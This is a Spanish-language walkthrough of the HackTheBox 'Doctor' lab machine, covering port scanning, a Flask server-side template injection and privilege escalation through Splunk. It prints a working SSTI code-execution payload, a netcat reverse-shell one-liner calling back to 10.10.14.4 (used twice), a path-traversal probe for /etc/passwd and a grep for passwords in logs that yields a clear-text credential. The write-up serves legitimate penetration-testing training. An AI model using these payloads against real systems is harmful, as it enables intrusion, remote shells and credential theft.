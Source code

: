 # Máquina "Doctor" de HackTheBox

## Características

- Linux
- Easy
- External
- Splunk
- Penetration Tester Level 1
- SSTI Exploitation
- A03:2021-Injection
- Enumeration
- Remote Code Execution
- Defense Mechanisms
- Clear Text Credentials
- SIEM
- Log Analysis
- Misconfiguration
- SSTI
- SSTI popen (RCE)
- Bypassing de command injection (RCE)
- Abusing ADM group finding credentials in request logs
- Splunk exploitation en la escalada

## Útil en

- eWPT
- eWPTX v2
- OSWE

**IP:** 10.10.10.209

## Escaneo de puertos

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.209 -oG allPorts
```

```bash
sudo nmap -sCV -p22,80,8089 10.10.10.209 -oN targeted
```

### Resultado del escaneo

```
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http Splunkd httpd
|_http-server-header: Splunkd
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Reconocimiento web

Vemos el puerto 80 y 8089, así que les lanzamos un whatweb:

```bash
whatweb http://10.10.10.209
```

**Resultado:**
```
http://10.10.10.209 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[info@doctors.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.209], JQuery[3.3.1], Script, Title[Doctor]
```

```bash
whatweb http://10.10.10.209:8089
```

**Resultado:**
```
ERROR Opening: http://10.10.10.209:8089 - Connection reset by peer
```

Como vemos en la descripción de nmap del puerto 8089, nos muestra SSL y no HTTP, así que enviaremos HTTPS:

```bash
whatweb https://10.10.10.209:8089
```

**Resultado:**
```
https://10.10.10.209:8089 [200 OK] Country[RESERVED][ZZ], HTTPServer[Splunkd], IP[10.10.10.209], Title[splunkd], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN]
```

## Configuración del archivo hosts

Agregamos al archivo `/etc/hosts`. Así que podemos tener un dominio en el puerto 80, podemos hacer virtual hosting. Ingresamos los datos de 3 formas: una con la IP, otra con el dominio y la otra con la IP al puerto 8089:

```bash
echo "10.10.10.209 doctors.htb doctor.htb" >> /etc/hosts
```

![Página web principal](/secciones/posts/imagenes/doctor/web1.png)

## Investigación de Splunk

Vemos los 4 links y nada. Continuamos lanzando `searchsploit splunk`. Luego buscamos en Google y podemos ver un local privilege escalation en:

https://github.com/cnotin/SplunkWhisperer2

Nos pide usuario y clave, así que lo dejaremos guardado.

## Análisis de la aplicación web

Volvemos a la página principal, nos registramos y vemos un panel con un número:

```
http://doctors.htb/home?page=1
```

Que podemos modificarlo para testear:

```
http://doctors.htb/home?page=../../../../.././../etc/passwd
```

Veremos el código fuente y podemos ver que hay una referencia a un directorio `<a class="nav-item nav-link" href="/home">Home</a>` y no se ve nada, así que agregamos al `/etc/hosts`.

```bash
whatweb http://doctors.htb
```

**Resultado:**
```
http://doctors.htb [302 Found] Cookies[session], Country[RESERVED][ZZ], HTTPServer[Werkzeug/1.0.1 Python/3.8.2], HttpOnly[session], IP[10.10.10.209], Python[3.8.2], RedirectLocation[http://doctors.htb/login?next=%2F], Title[Redirecting...], Werkzeug[1.0.1]
http://doctors.htb/login?next=%2F [200 OK] Bootstrap[4.0.0], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/1.0.1 Python/3.8.2], IP[10.10.10.209], JQuery, PasswordField[password], Python[3.8.2], Script, Title[Doctor Secure Messaging - Login], Werkzeug[1.0.1]
```

## Explotación SSTI

Ahora sí podemos ver, y al ver con Wappalyzer nos muestra que corre Flask. Lanzamos esta payload:

```python
{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}  
```

![SSTI Payload](/secciones/posts/imagenes/doctor/payload.webp)

¡Tenemos RCE! Ahora, probé una línea de shell reverso de la hoja de trucos de shell reverso de PentestMonkey. Esta fue mi carga útil final:

```python
{% raw %}{% raw %}{% raw %}{{request.application.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 1234 >/tmp/f').read()}}{% endraw %}{% endraw %}{% endraw %}
```

## Acceso inicial

Configuramos netcat y lanzamos:

```bash
nc -lvnp 1234
```

Tenemos shell, la configuramos y seguimos.

A continuación, utilicé `ssh-keygen` para crear un `id_rsa` para la web y luego inicié sesión a través de SSH.

## Escalada horizontal

Una vez dentro, lanzamos `id` y podemos ver que tenemos el grupo `adm`. Una búsqueda rápida me dijo que los usuarios del grupo `adm` pueden leer los archivos `/var/log`.

Así que vamos y ejecutamos:

```bash
grep -ir password * 2>/dev/null
```

Es posible que hayamos encontrado una posible contraseña: `Guitar123`. Intentamos ingresar con el usuario `shaun` y entramos con éxito.

Sacamos la flag de user.

## Escalamiento de privilegios

Ejecuté `ps aux` y vi que root está ejecutando el servidor splunkd:

```bash
ps aux | grep splunk
```

Usaremos el exploit nuevamente, pero esta vez desde shaun:

```bash
python3 PySplunkWhisperer2_remote.py --host doctor.htb --port 8089 --username shaun --password Guitar123 --payload "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 1234 >/tmp/f" --lhost 10.10.14.4
```

¡Y somos root!

## Nota  

Algunos de los writeups en esta página pueden tener contenido de otras páginas o tener muy pocas imágenes. Esto se debe a que en algunas de las máquinas que realicé, no tomé los apuntes o no tomé capturas de pantalla, así que he decidido buscar varios writeups y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí. También, si encuentras faltas de ortografía o cualquier error, puedes contactarme a mi correo.

